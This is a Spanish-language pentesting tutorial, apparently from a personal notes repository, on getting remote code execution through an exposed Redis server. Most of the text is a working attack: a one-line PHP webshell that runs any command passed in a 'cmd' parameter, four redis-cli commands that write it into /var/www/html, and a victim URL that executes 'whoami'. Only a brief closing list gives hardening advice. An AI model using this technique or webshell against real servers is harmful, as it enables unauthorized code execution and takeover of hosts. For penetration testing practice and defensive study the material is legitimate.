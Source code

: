 # RCE vía Redis (Webshell PHP)

## Introducción

Si un servidor tiene **Redis expuesto**, ya sea sin autenticación o con credenciales que conseguimos, podemos aprovecharlo para obtener **Remote Code Execution (RCE)** en la máquina. Redis nos permite escribir ficheros arbitrarios en disco, lo que lo hace un vector interesante explotación.

En este ejemplo vamos a generar una **PHP webshell**, subirla a un directorio accesible desde el navegador y ejecutar comandos.

---

## Preparación de la Webshell PHP

Creamos un fichero `cmd.php`. Es importante que tenga **2-3 saltos de línea al principio y al final**, ya que Redis a veces da fallos si no se hace así.

```php


<?php
    system($_REQUEST['cmd']);
?>


```

* Este PHP recibe un parámetro `cmd` y lo ejecuta directamente en el sistema.
* Guardamos este fichero localmente.

---

## Subir la webshell a Redis

1. Guardamos el contenido del fichero en una key de Redis usando `-x set`:

```bash
cat cmd.php | redis-cli -h 127.0.0.1 -x set reverse
```

2. Configuramos Redis para que escriba en un directorio accesible por el servidor web:

```bash
redis-cli -h 127.0.0.1 config set dir /var/www/html
```

3. Indicamos el nombre del fichero que queremos generar:

```bash
redis-cli -h 127.0.0.1 config set dbfilename "cmd.php"
```

4. Forzamos a Redis a guardar la base de datos en disco:

```bash
redis-cli -h 127.0.0.1 save
```

* Ahora, si accedemos a `http://victima/cmd.php?cmd=whoami` desde el navegador, ejecutaremos comandos en la máquina.

---

## Consideraciones de Seguridad

* Redis **no debería estar expuesto** públicamente.
* Nunca ejecutar Redis con permisos de root.
* El acceso a Redis sin autenticación es crítico y puede derivar en RCE completo.

